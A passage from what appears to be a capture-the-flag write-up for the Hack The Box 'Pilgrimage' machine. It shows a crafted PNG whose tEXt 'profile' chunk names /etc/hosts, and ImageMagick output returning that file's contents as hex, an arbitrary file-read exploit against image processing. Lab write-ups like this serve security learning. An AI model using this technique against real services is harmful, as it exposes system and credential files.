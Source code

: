 ```bash
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | .....                          | 0xf943bb7f
     111 | tIME  |       7 | ......%                        | 0x1675b087
     130 | IDAT  |   51592 | x...i.eiz.........GF...U..tWu. | 0x77411e81
   51734 | tEXt  |      37 | date:create.2024-07-08T16:00:3 | 0x1fd2e630
   51783 | tEXt  |      37 | date:modify.2024-07-08T16:00:3 | 0x6e8f5e8c
   51832 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
   51862 | IEND  |       0 |                                | 0xae426082
```

Then, I uploaded the `pngout.png` and downloaded processed output file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ identify -verbose 67f0747ec7b6b.png    
Image:
  Filename: 67f0747ec7b6b.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: DirectClass
  Geometry: 140x105+0+0
  Units: Undefined
  Colorspace: sRGB

...SNIP...

  Properties:
    date:create: 2025-04-05T00:07:30+00:00
    date:modify: 2025-04-05T00:08:31+00:00
    date:timestamp: 2025-04-05T00:07:47+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 140, 105
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-04-05T00:08:30Z
    Raw profile type: 

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a

    signature: 3ca30ddbfa6d314e1be7606bf3cca50feb8121f6705e971a0d13a04b0119e92a
  Artifacts:
    filename: 67f0747ec7b6b.png
    verbose: true
  Tainted: False
  Filesize: 18633B
  Number pixels: 14700
  Pixels per second: 13.1348MB
  User time: 0.000u
  Elapsed time: 0:01.001
  Version: ImageMagick 6.9.13-12 Q16 aarch64 18420 https://legacy.imagemagick.org
```
